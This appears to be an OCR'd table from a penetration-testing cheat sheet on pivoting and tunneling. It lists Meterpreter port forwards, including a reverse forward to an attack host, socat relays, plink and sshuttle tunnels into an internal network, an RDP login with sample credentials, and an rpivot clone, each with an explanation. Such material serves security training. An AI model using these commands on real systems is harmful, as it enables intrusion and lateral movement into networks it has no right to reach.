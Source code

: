 | `meterpreter > portfwd add -l 3300 -p 3389 -r <IPaddressofTarget>`                                                                                                                                                 | Meterpreter-based portfwd command that adds a forwarding rule to the current Meterpreter session. This rule forwards network traffic on port 3300 on the local machine to port 3389 (RDP) on the target.                                                                |
| `xfreerdp /v:localhost:3300 /u:victor /p:pass@123`                                                                                                                                                                 | Uses xfreerdp to connect to a remote host through localhost:3300 using a set of credentials. Port forwarding rules must be in place for this to work properly.                                                                                                          |
| `netstat -antp`                                                                                                                                                                                                    | Used to display all (`-a`) active network connections with associated process IDs. `-t` displays only TCP connections.`-n` displays only numerical addresses. `-p` displays process IDs associated with each displayed connection.                                      |
| `meterpreter > portfwd add -R -l 8081 -p 1234 -L <IPaddressofAttackHost>`                                                                                                                                          | Meterpreter-based portfwd command that adds a forwarding rule that directs traffic coming on on port 8081 to the port `1234` listening on the IP address of the Attack Host.                                                                                            |
| `meterpreter > bg`                                                                                                                                                                                                 | Meterpreter-based command used to run the selected metepreter session in the background. Similar to background a process in Linux                                                                                                                                       |
| `socat TCP4-LISTEN:8080,fork TCP4:<IPaddressofAttackHost>:80`                                                                                                                                                      | Uses Socat to listen on port 8080 and then to fork when the connection is received. It will then connect to the attack host on port 80.                                                                                                                                 |
| `socat TCP4-LISTEN:8080,fork TCP4:<IPaddressofTarget>:8443`                                                                                                                                                        | Uses Socat to listen on port 8080 and then to fork when the connection is received. Then it will connect to the target host on port 8443.                                                                                                                               |
| `plink -D 9050 ubuntu@<IPaddressofTarget>`                                                                                                                                                                         | Windows-based command that uses PuTTY's Plink.exe to perform SSH dynamic port forwarding and establishes an SSH tunnel with the specified target. This will allow for proxy chaining on a Windows host, similar to what is done with Proxychains on a Linux-based host. |
| `sudo apt-get install sshuttle`                                                                                                                                                                                    | Uses apt-get to install the tool sshuttle.                                                                                                                                                                                                                              |
| `sudo sshuttle -r ubuntu@10.129.202.64 172.16.5.0 -v`                                                                                                                                                              | Runs sshuttle, connects to the target host, and creates a route to the 172.16.5.0 network so traffic can pass from the attack host to hosts on the internal network (`172.16.5.0`).                                                                                     |
| `sudo git clone https://github.com/klsecservices/rpivot.git`                                                                                                                                                       | Clones the rpivot project GitHub repository.                                                                                                                                                                                                                            |
| `sudo apt-get install python2.7`                                                                                                                                                                                   | Uses apt-get to install python2.7.                                                                                                                                                                                                                                      |